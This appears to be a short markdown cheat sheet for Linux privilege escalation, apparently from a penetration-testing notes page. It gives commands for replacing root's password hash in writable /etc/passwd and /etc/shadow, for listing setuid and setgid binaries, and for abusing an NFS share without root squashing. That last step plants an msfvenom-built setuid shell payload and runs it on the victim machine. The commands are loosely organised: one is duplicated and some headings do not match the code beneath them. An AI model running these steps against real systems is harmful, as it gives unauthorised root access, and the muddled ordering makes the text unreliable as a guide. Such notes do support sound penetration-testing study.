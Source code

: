 ### Check For write perm of /etc/passwd and /etc/shadow file
```
openssl passwd new_password
```
#### Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").
```
mkpasswd -m sha-512 newpasswordhere
```
#### Check the hashing algorithm used
```
mkpasswd -m sha-512 newpasswordhere
```
#### Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

#### Find files having setuid and setgid flag se and search for exploits
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

#### NFS
- Check if root squashing is enabled or not "cat /etc/exports"
- If disabled switch to root in your machine
```
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```
From victims machine execute the msfvenom payload. /tmp/shell.elf
